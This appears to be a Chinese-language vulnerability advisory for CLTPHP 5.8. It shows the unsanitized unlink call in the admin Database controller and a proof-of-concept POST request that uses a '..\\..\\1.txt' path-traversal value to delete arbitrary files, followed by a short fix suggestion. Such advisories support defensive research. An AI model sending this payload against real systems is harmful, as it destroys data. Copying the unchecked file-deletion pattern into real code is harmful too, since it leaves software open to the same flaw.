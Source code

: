 CLTPHP 5.8 后台任意文件删除漏洞
===============================

一、漏洞简介
------------

CLTPHP是基于ThinkPHP5开发，后台采用Layui框架的内容管理系统，

二、漏洞影响
------------

CLTPHP 5.8及之前版本

三、复现过程
------------

### 漏洞分析

`app/admin/controller/Database.php` 第221-248行：

    public function delSqlFiles() {  
      $batchFlag = input('param.batchFlag', 0, 'intval');  
      //批量删除  
      if ($batchFlag) {  
        $files = input('key', array());  
      }else {  
        $files[] = input('sqlfilename' , '');  
      }  
      if (empty($files)) {  
    \10.     $result['msg'] = '请选择要删除的sql文件!';  
    \11.     $result['code'] = 0;  
    \12.     return $result;  
    \13.   }  
    \14.  
    \15.   foreach ($files as $file) {  
    \16.     $a = unlink($this->datadir.'/' . $file);  
    \17.   }  
    \18.   if($a){  
    \19.     $result['msg'] = '删除成功!';  
    \20.     $result['url'] = url('restore');  
    \21.     $result['code'] = 1;  
    \22.     return $result;  
    \23.   }else{  
    \24.     $result['msg'] = '删除失败!';  
    \25.     $result['code'] = 0;  
    \26.     return $result;  
    \27.   }  
    \28. }  

在这段函数中，参数sqlfilename未经任何处理，直接带入unlink函数中删除，导致程序在实现上存在任意文件删除漏洞，攻击者可通过该漏洞删除任意文件。

### 漏洞复现

构造URL，成功删除根目录的1.txt文件

    http://www.0-sec.org/admin/Database/delSqlFiles.html

     
    POST: sqlfilename=..\\..\\1.txt

![11.png](./resource/CLTPHP5.8后台任意文件删除漏洞/media/rId26.png)

### 修复建议

> 对于要删除的文件，通过正则判断用户输入的参数的格式，看输入的格式是否合法。
